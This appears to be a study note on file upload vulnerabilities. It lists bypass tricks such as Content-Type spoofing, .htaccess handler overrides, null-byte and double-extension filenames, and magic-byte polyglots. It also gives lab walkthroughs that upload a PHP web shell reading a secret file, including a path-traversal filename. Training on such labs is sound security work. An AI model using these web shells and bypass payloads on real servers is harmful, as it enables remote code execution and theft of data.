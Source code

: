 # File Upload
The impact of file upload vulnerabilities generally depends on two key factors:
- Which aspect of the file the website fails to validate properly, whether that be its size, type, contents, and so on.
- What restrictions are imposed on the file once it has been successfully uploaded.

## File upload restrictions bypass
- **Flawed file type validation:** change `Content-Type` header
- **Preventing file execution in user-accessible directories:** find a way to upload a script to a different directory that's not supposed to contain user-supplied files, the server may execute your script after all
- **Overriding the server configuration:** Apache servers, for example, will load a directory-specific configuration from a file called `.htaccess` if one is present. Use this `AddType application/x-httpd-php .pucavv` to execute `.pucavv` as `.php` file. Similarly, developers can make directory-specific configuration on IIS servers using a web.config file. This might include directives such as the following, which in this case allows JSON files to be served to users:
`<staticContent><mimeMap fileExtension=".json" mimeType="application/json"/></staticContent>`
- **Obfuscating file extensions:**
  - Provide multiple extensions: `exploit.php.jpg`
  - Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
  - Try using the URL encoding (or double URL encoding): `exploit%2Ephp`
  - Add semicolons or URL-encoded null byte characters before the file extension: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
  - Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization: `xC0 x2E`, `xC4 xAE` or `xC0 xAE`.
  - Using transformation against stripping or replacing defenses: `exploit.p.phphp`
- **Flawed validation of the file's contents:** change the signature of a file using tools like `hexedit` or `exiftool`.

### LAB: Remote code execution via web shell upload
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Visits `/files/avatars/test.php` to see the result of the command.

### LAB: Web shell upload via Content-Type restriction bypass
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Intercept `POST /my-account/avatar` request and change the `Content-Type` to `image/jpeg`:

    ------WebKitFormBoundarySLv30wPSW47UnsOn
    Content-Disposition: form-data; name="avatar"; filename="test.php"
    Content-Type: image/jpeg

### LAB: Web shell upload via path traversal
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Visit the avatar URL at `/files/avatar/exploit.php` and observe that the code is shown instead of the result of executed one.
Try to upload the `exploit.php` at different location by using path traversal by setting `filename:"../exploit.php"` and observe that the traversal part is stripped by the server:

    The file avatars/test.php has been uploaded.

This time use URL-encoding by setting: `filename:"..%2fexploit.php"` and notice the difference:

    The file avatars/../test.php has been uploaded.

Visit the avatar URL at `files/exploit.php` and retrieve the secret.

### LAB: Web shell upload via extension blacklist bypass
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Visit the avatar URL at `/files/avatar/exploit.php` and observe that `.php` files are not allowed. But notice that the web server is Apache.
Upload this `.htaccess` file to make `.pucavv` files executable as `.php` files:

    AddType application/x-httpd-php .pucavv

Now resend the upload file request with the new filename set to "exploit.pucavv". Visit the avatar URL at `/files/avatar/exploit.php` and retrieve the secret.

### LAB: Web shell upload via obfuscated file extension
Notice that only `.jpeg` or `.png` files are allowed and the server only checks for the suffix to contain those extension.
Make use of null bytes and by setting `filename="exploit.php%00.png"`. This not only bypasses the check from the server but also makes it a valid `.php` file since everything after the null bytes are ignored.
Visit the avatar URL at `/files/avatar/exploit.php` and retrieve the secret.

### LAB: Remote code execution via polyglot web shell upload
The server checks for the signature of a file. Use `hexedit` to modify the header of `exploit.php` to contain the `png` signature:

    �PNG
    

    <?php echo file_get_contents('/home/carlos/secret') ?>

Successfully upload the file and visit the avatar URL to retrieve the secret.